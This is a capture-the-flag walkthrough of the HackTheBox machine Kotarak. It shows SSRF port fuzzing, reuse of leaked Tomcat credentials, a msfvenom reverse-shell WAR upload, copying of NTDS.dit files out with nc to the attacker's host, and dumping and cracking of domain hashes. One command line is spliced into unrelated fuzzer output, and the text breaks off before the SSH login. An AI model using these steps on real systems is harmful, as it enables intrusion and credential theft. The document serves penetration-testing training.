










---
search:
  exclude: true
---
# Kotarak Writeup

## Introduction :

Kotarak is a hard linux box released back in september 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sT** for tcp ports and **-sU** to for udp ports.
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/2 ] [~]
    → sudo nmap -vvv -sTU -p- 10.10.10.55 --max-retries 0 -Pn --min-rate=500 | grep Discovered
    [sudo] password for nothing:
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Discovered open port 8080/tcp on 10.10.10.55
    Discovered open port 22/tcp on 10.10.10.55
    Discovered open port 8009/tcp on 10.10.10.55
    Discovered open port 60000/tcp on 10.10.10.55
    
    

Once we know which ports are opened, we enumerate the ones we want with **-p** , using the flags **-sC** for default scripts, and **-sV** to enumerate versions.
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/2 ] [~]
    → sudo nmap -sCV -p8080,22,8009,60000 10.10.10.55
    Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-21 22:50 CET
    Nmap scan report for 10.10.10.55
    Host is up (0.034s latency).
    
    PORT      STATE SERVICE VERSION
    22/tcp    open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 e2:d7:ca:0e:b7:cb:0a:51:f7:2e:75:ea:02:24:17:74 (RSA)
    |   256 e8:f1:c0:d3:7d:9b:43:73:ad:37:3b:cb:e1:64:8e:e9 (ECDSA)
    |_  256 6d:e9:26:ad:86:02:2d:68:e1:eb:ad:66:a0:60:17:b8 (ED25519)
    8009/tcp  open  ajp13   Apache Jserv (Protocol v1.3)
    | ajp-methods:
    |   Supported methods: GET HEAD POST PUT DELETE OPTIONS
    |   Potentially risky methods: PUT DELETE
    |_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
    8080/tcp  open  http    Apache Tomcat 8.5.5
    |_http-favicon: Apache Tomcat
    | http-methods:
    |_  Potentially risky methods: PUT DELETE
    |_http-title: Apache Tomcat/8.5.5 - Error report
    60000/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title:         Kotarak Web Hosting
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 52.68 seconds
    
    

## **Part 2 : Getting User Access**

As our nmap scan points out, port 8080 seems to be interesting so let's investigate it:

Most apache tomcat services have an important directory in /manager/html as you can see:

Now here you can't bruteforce the password here because the service will block the account so let's keep poking around another port that our nmap scan picked up: 

and here we get an interesting page with a url prompt so we're going to use burpsuite's repeater on it:

  

So here we see there's a regex that matches the word file so we can't print out the files on the machine, next is we try if we can find local ports:

It works for port 60000 but we know that already, let's use wfuzz to enumerate:
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/7 ] [~/_HTB/Kotarak]
    → wfuzz -c -z range,1-65535 http://10.10.10.55:60000/url.php\?path\=http://localhost:FUZZ
     /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ
    Total requests: 65535
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================
    
    000000001:   200        2 L      0 W        2 Ch        "1"
    000000039:   200        2 L      0 W        2 Ch        "39"
    000000015:   200        2 L      0 W        2 Ch        "15"
    000000003:   200        2 L      0 W        2 Ch        "3"
    000000007:   200        2 L      0 W        2 Ch        "7"
    000000031:   200        2 L      0 W        2 Ch        "31"
    000000034:   200        2 L      0 W        2 Ch        "34"
    000000033:   200        2 L      0 W        2 Ch        "33"
    000000030:   200        2 L      0 W        2 Ch        "30"
    000000029:   200        2 L      0 W        2 Ch        "29"
    000000032:   200        2 L      0 W        2 Ch        "32"
    000000028:   200        2 L      0 W        2 Ch        "28"[ 10.10.14.6/23 ] [ /dev/pts/18 ] [~]
    → msfvenom -l payloads
    
    000000038:   200        2 L      0 W        2 Ch        "38"
    000000027:   200        2 L      0 W        2 Ch        "27"
    000000023:   200        2 L      0 W        2 Ch        "23"
    000000024:   200        2 L      0 W        2 Ch        "24"
    000000025:   200        2 L      0 W        2 Ch        "25"
    000000026:   200        2 L      0 W        2 Ch        "26"
    000000022:   200        4 L      4 W        62 Ch       "22"
    000000021:   200        2 L      0 W        2 Ch        "21"
    000000020:   200        2 L      0 W        2 Ch        "20"
    000000014:   200        2 L      0 W        2 Ch        "14"
    000000017:   200        2 L      0 W        2 Ch        "17"
    000000018:   200        2 L      0 W        2 Ch        "18"
    000000019:   200        2 L      0 W        2 Ch        "19"
    000000016:   200        2 L      0 W        2 Ch        "16"
    000000013:   200        2 L      0 W        2 Ch        "13"
    000000012:   200        2 L      0 W        2 Ch        "12"
    000000008:   200        2 L      0 W        2 Ch        "8"
    000000011:   200        2 L      0 W        2 Ch        "11"
    000000009:   200        2 L      0 W        2 Ch        "9"
    000000006:   200        2 L      0 W        2 Ch        "6"
    000000010:   200        2 L      0 W        2 Ch        "10"
    000000005:   200        2 L      0 W        2 Ch        "5"
    000000002:   200        2 L      0 W        2 Ch        "2"
    000000054:   200        2 L      0 W        2 Ch        "54"
    000000004:   200        2 L      0 W        2 Ch        "4"
    000000042:   200        2 L      0 W        2 Ch        "42"
    000000046:   200        2 L      0 W        2 Ch        "46"
    
    

here we can see the junk responses that are only 2 responses characters long, therefore we're going to filter out the 2 chars long responses with the option --hl=2 :
    
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/7 ] [~/_HTB/Kotarak]
    → wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php\?path\=http://localhost:FUZZ
     /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ
    Total requests: 65535
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================
    
    000000022:   200        4 L      4 W        62 Ch       "22"
    000000090:   200        11 L     18 W       156 Ch      "90"
    000000110:   200        17 L     24 W       187 Ch      "110"
    000000200:   200        3 L      2 W        22 Ch       "200"
    000000320:   200        26 L     109 W      1232 Ch     "320"
    000000888:   200        78 L     265 W      3955 Ch     "888"
    
    Total time: 262.3381
    Processed Requests: 54927
    Filtered Requests: 54921
    Requests/sec.: 209.3748
    
     /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:78: UserWarning:Fatal exception: Pycurl error 28: Operation timed out after 90000 milliseconds with 0 bytes received
    
    

So here we have a few interesting responses : port 22, 90, 110, 200, 320, and 888. you would have to test each one of them but the important one right now is 888:

Do ctrl+U to view sourcecode:

and navigate to ?doc=backup:

select url and CTRL+U to url encode it:

and we found some credentials ! admin:3@g01PdhB! So let's try to login on the tomcat login page we found earlier at http://10.10.10.55:8080/manager/html

And we now have access to the tomcat web manager, From here we want to upload a malicious WAR file to get us a shell.
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/18 ] [~]
    → msfvenom -l payloads | grep java
        java/jsp_shell_bind_tcp                             Listen for a connection and spawn a command shell
        java/jsp_shell_reverse_tcp                          Connect back to attacker and spawn a command shell
        java/meterpreter/bind_tcp                           Run a meterpreter server in Java. Listen for a connection
        java/meterpreter/reverse_http                       Run a meterpreter server in Java. Tunnel communication over HTTP
        java/meterpreter/reverse_https                      Run a meterpreter server in Java. Tunnel communication over HTTPS
        java/meterpreter/reverse_tcp                        Run a meterpreter server in Java. Connect back stager
        java/shell/bind_tcp                                 Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Listen for a connection
        java/shell/reverse_tcp                              Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Connect back stager
        java/shell_reverse_tcp                              Connect back to attacker and spawn a command shell
    
    

Here we want msvenom's java/jsp_shell_reverse_tcp
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/18 ] [~/_HTB/Kotarak]
    → msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=9090 -f war > ippsecrocks.war
    Payload size: 1093 bytes
    Final size of war file: 1093 bytes
    
    [ 10.10.14.6/23 ] [ /dev/pts/18 ] [~/_HTB/Kotarak]
    → l
    total 12K
    drwxr-xr-x 2 nothing nothing 4.0K Dec 22 14:17 .
    drwxr-xr-x 5 nothing nothing 4.0K Dec 21 17:43 ..
    -rw-r--r-- 1 nothing nothing 1.1K Dec 22 14:17 ippsecrocks.war
    
    

`  

Now that we got a shell, let's upgrade it to a fully interactive shell:
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/15 ] [~]
    → nc -lvnp 9090
    listening on [any] 9090 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.55] 42176
    id
    uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
    which python
    /usr/bin/python
    python -c 'import pty;pty.spawn("/bin/bash")'
    tomcat@kotarak-dmz:/$ ^Z
    [1]  + 257499 suspended  nc -lvnp 9090
    
    [ 10.10.14.6/23 ] [ /dev/pts/15 ] [~]
    → stty raw -echo ; fg
    [1]  + 257499 continued  nc -lvnp 9090
    
    tomcat@kotarak-dmz:/$ 
    

What you need to remember to get a fully interactive reverse shell is the following:
    
    
    python -c 'import pty;pty.spawn("/bin/bash")'
    CTRL+Z (or ^Z)
    stty raw -echo ; fg
    export TERM=screen-256color
    export SHELL=bash
    stty rows 40 columns 125
    reset
    
    

And now here we have a shell that we can clear, auto-complete and use vi from.
    
    
    
    tomcat@kotarak-dmz:/$ id
    uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
    tomcat@kotarak-dmz:/$ ls -lash backups/
    total 12K
    4.0K drwxr-xr-x  3 root root 4.0K Jul 21  2017 .
    4.0K drwxr-xr-x 27 root root 4.0K Aug 29  2017 ..
    4.0K drwxr-xr-x  2 root root 4.0K Jul 21  2017 backups
    tomcat@kotarak-dmz:/$ ls -lash backups/backups/
    total 12K
    4.0K drwxr-xr-x 2 root root 4.0K Jul 21  2017 .
    4.0K drwxr-xr-x 3 root root 4.0K Jul 21  2017 ..
    4.0K -rw-r----- 1 root root 2.3K Jul 12  2017 tomcat-users.xml
    tomcat@kotarak-dmz:/$ cat backups/backups/tomcat-users.xml
    cat: backups/backups/tomcat-users.xml: Permission denied
    tomcat@kotarak-dmz:/$ ls -lash /home
    total 16K
    4.0K drwxr-xr-x  4 root   root   4.0K Jul 21  2017 .
    4.0K drwxr-xr-x 27 root   root   4.0K Aug 29  2017 ..
    4.0K drwxr-xr-x  4 atanas atanas 4.0K Aug 29  2017 atanas
    4.0K drwxr-xr-x  3 tomcat tomcat 4.0K Jul 21  2017 tomcat
    tomcat@kotarak-dmz:/$ ls -lash /home/tomcat/
    total 12K
    4.0K drwxr-xr-x 3 tomcat tomcat 4.0K Jul 21  2017 .
    4.0K drwxr-xr-x 4 root   root   4.0K Jul 21  2017 ..
    4.0K drwxr-xr-x 3 tomcat tomcat 4.0K Jul 21  2017 to_archive
    tomcat@kotarak-dmz:/$ ls -lash /home/tomcat/to_archive/
    total 12K
    4.0K drwxr-xr-x 3 tomcat tomcat 4.0K Jul 21  2017 .
    4.0K drwxr-xr-x 3 tomcat tomcat 4.0K Jul 21  2017 ..
    4.0K drwxr-xr-x 2 tomcat tomcat 4.0K Jul 21  2017 pentest_data
    tomcat@kotarak-dmz:/$ ls -lash /home/tomcat/to_archive/pentest_data/
    total 28M
    4.0K drwxr-xr-x 2 tomcat tomcat 4.0K Jul 21  2017 .
    4.0K drwxr-xr-x 3 tomcat tomcat 4.0K Jul 21  2017 ..
     17M -rw-r--r-- 1 tomcat tomcat  17M Jul 21  2017 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
     12M -rw-r--r-- 1 tomcat tomcat  12M Jul 21  2017 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
    

Here after poking around a bit we found psexec ntds .dit and .bin files, which are normally found on windows active directory controllers, and it's what contains a windows active directory informations (policies, users, and most importantly passwords.) so let's get these files into our local machine: 

_Terminal 1:_
    
    
    nc 10.10.14.6 9093 < file.bin
    nc 10.10.14.6 9094 < file.dit
    

` _Terminal 2:_
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/15 ] [~/_HTB/Kotarak]
    → nc -lvnp 9093 > SYSTEM
    listening on [any] 9093 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.55] 48340
    
    [ 10.10.14.6/23 ] [ /dev/pts/15 ] [~/_HTB/Kotarak]
    → nc -lvnp 9094 > ntds.dit
    listening on [any] 9094 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.55] 32822
    
    [ 10.10.14.6/23 ] [ /dev/pts/15 ] [~/_HTB/Kotarak]
    → file *
    ntds.dit:        Extensible storage engine DataBase, version 0x620, checksum 0x16d44752, page size 8192, DirtyShutdown, Windows version 6.1
    SYSTEM:          MS Windows registry file, NT/2000 or above
    
    

Now that we have what we needed, let's use impacket to dump the secrets using both files:
    
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/18 ] [~/_HTB/Kotarak]
    → impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
    Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
    
    [*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Searching for pekList, be patient
    [*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
    [*] Reading and decrypting hashes from ntds.dit
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
    WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
    WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
    WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
    WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
    atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
    [*] Kerberos keys from ntds.dit
    Administrator:aes256-cts-hmac-sha1-96:6c53b16d11a496d0535959885ea7c79c04945889028704e2a4d1ca171e4374e2
    Administrator:aes128-cts-hmac-sha1-96:e2a25474aa9eb0e1525d0f50233c0274
    Administrator:des-cbc-md5:75375eda54757c2f
    WIN-3G2B0H151AC$:aes256-cts-hmac-sha1-96:84e3d886fe1a81ed415d36f438c036715fd8c9e67edbd866519a2358f9897233
    WIN-3G2B0H151AC$:aes128-cts-hmac-sha1-96:e1a487ca8937b21268e8b3c41c0e4a74
    WIN-3G2B0H151AC$:des-cbc-md5:b39dc12a920457d5
    WIN-3G2B0H151AC$:rc4_hmac:668d49ebfdb70aeee8bcaeac9e3e66fd
    krbtgt:aes256-cts-hmac-sha1-96:14134e1da577c7162acb1e01ea750a9da9b9b717f78d7ca6a5c95febe09b35b8
    krbtgt:aes128-cts-hmac-sha1-96:8b96c9c8ea354109b951bfa3f3aa4593
    krbtgt:des-cbc-md5:10ef08047a862046
    krbtgt:rc4_hmac:ca1ccefcb525db49828fbb9d68298eee
    WIN2K8$:aes256-cts-hmac-sha1-96:289dd4c7e01818f179a977fd1e35c0d34b22456b1c8f844f34d11b63168637c5
    WIN2K8$:aes128-cts-hmac-sha1-96:deb0ee067658c075ea7eaef27a605908
    WIN2K8$:des-cbc-md5:d352a8d3a7a7380b
    WIN2K8$:rc4_hmac:160f6c1db2ce0994c19c46a349611487
    WINXP1$:aes256-cts-hmac-sha1-96:347a128a1f9a71de4c52b09d94ad374ac173bd644c20d5e76f31b85e43376d14
    WINXP1$:aes128-cts-hmac-sha1-96:0e4c937f9f35576756a6001b0af04ded
    WINXP1$:des-cbc-md5:984a40d5f4a815f2
    WINXP1$:rc4_hmac:6f5e87fd20d1d8753896f6c9cb316279
    WIN2K31$:aes256-cts-hmac-sha1-96:f486b86bda928707e327faf7c752cba5bd1fcb42c3483c404be0424f6a5c9f16
    WIN2K31$:aes128-cts-hmac-sha1-96:1aae3545508cfda2725c8f9832a1a734
    WIN2K31$:des-cbc-md5:4cbf2ad3c4f75b01
    WIN2K31$:rc4_hmac:cdd7a7f43d06b3a91705900a592f3772
    WIN7$:aes256-cts-hmac-sha1-96:b9921a50152944b5849c706b584f108f9b93127f259b179afc207d2b46de6f42
    WIN7$:aes128-cts-hmac-sha1-96:40207f6ef31d6f50065d2f2ddb61a9e7
    WIN7$:des-cbc-md5:89a1673723ad9180
    WIN7$:rc4_hmac:24473180acbcc5f7d2731abe05cfa88c
    atanas:aes256-cts-hmac-sha1-96:933a05beca1abd1a1a47d70b23122c55de2fedfc855d94d543152239dd840ce2
    atanas:aes128-cts-hmac-sha1-96:d1db0c62335c9ae2508ee1d23d6efca4
    atanas:des-cbc-md5:6b80e391f113542a
    [*] Cleaning up...
    
    

Out of these hashes we want the following:
    
    
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
    atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
    
    

it's quite odd to have windows stuff on that linux machine, so let's see which machines our reverse shell'd machine can talk to / is currently talking to: 
    
    
    tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ arp -a
    ? (10.0.3.133) at 00:16:3e:c9:bd:b1 [ether] on lxcbr0
    ? (10.10.10.2) at 00:50:56:b9:35:90 [ether] on eth0
    
    tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ nc -v 10.0.3.133 22
    Connection to 10.0.3.133 22 port [tcp/ssh] succeeded!
    SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
    
    

However it seems like the box kotarak is talking to isn't a windows machine. Therefore we'll need to crack the hashes we got
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/15 ] [~/_HTB/Kotarak]
    → vim hashes
    
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
    atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
    
    [ 10.10.14.6/23 ] [ /dev/pts/15 ] [~/_HTB/Kotarak]
    → awk -F: '{print $4}' hashes
    e64fe0f24ba2489c05e64354d74ebd11
    2b576acbe6bcfda7294d6bd18041b8fe
    
    

`  

And we have credentials ! we found the Passwords Password123! and f16tomcat! so let's login as atanas via ssh:
    
    
